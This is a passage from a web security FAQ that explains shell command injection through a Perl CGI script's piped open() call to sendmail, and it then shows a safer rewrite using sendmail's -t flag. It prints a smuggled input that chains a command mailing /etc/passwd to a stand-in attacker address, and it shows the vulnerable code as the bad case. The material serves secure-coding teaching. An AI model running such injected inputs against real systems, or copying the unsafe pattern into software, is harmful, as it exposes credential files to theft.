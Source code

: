           $mail_to = &get_name_from_input; # read the address from form
          open (MAIL,"| /usr/lib/sendmail $mail_to");
          print MAIL "To: $mailto\nFrom: me\n\nHi there!\n";
          close MAIL;

       ```
       The problem is in the piped open() call. The author has assumed that
       the contents of the $mail\_to variable will always be an innocent
       e-mail address. But what if the wiley hacker passes an e-mail address
       that looks like this?
       ```

            nobody@nowhere.com;mail badguys@hell.org</etc/passwd;

       ```
       Now the open() statement will evaluate the following command:
       ```

       /usr/lib/sendmail nobody@nowhere.com; mail badguys@hell.org</etc/passwd

       ```
       Unintentionally, open() has mailed the contents of the system password
       file to the remote user, opening the host to password cracking attack.

---

## Q7: But if I avoid eval(), exec(), popen() and system(), how can I create an interface to my database/search engine/graphics package?

You don't have to avoid these calls completely. You just have to
understand what you're doing before you call them. In some cases you
can avoid passing user-supplied variables through the shell by calling
external programs differently. For example, sendmail supports a -t
option, which tells it to ignore the address given on the command line
and take its To: address from the e-mail header. The example above
can be rewritten in order to take advantage of this feature as shown
below (it also uses the -oi flag to prevent sendmail from ending the
message prematurely if it encounters a period at the start of a line):
```

   $mailto = &get_name_from_input; # read the address from form
   open (MAIL,"| /usr/lib/sendmail -t -oi");
   print MAIL <<END;
   To: $mailto
   From: me (me\@nowhere.com)
   Subject: nothing much

   Hi there!
   END
   close MAIL;

```
C programmers can use the exec family of commands to pass arguments
directly to programs rather than going through the shell. This can
also be accomplished in Perl using the technique described below.
